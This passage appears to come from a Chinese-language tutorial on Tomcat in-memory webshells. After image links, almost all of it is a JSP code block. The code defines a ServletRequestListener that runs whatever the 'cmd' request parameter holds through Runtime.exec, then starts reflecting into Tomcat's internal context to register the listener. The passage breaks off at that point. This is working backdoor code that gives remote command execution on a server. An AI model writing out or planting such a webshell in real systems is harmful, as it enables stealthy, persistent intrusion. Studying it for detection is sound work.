 ![image.png](Tomcat内存马基础入门.assets/2023_05_19_10_26_55_er6LUzZ7.png)
### JSP
```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="javax.servlet.http.HttpServlet" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Field" %>

<%
class S implements ServletRequestListener{
    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
        
    }
    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
        if(cmd != null){
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException e) {}
        }
    }
}
%>

<%
ServletContext servletContext =  request.getSession().getServletContext();
Field appctx = servletContext.getClass().getDeclaredField("context");
```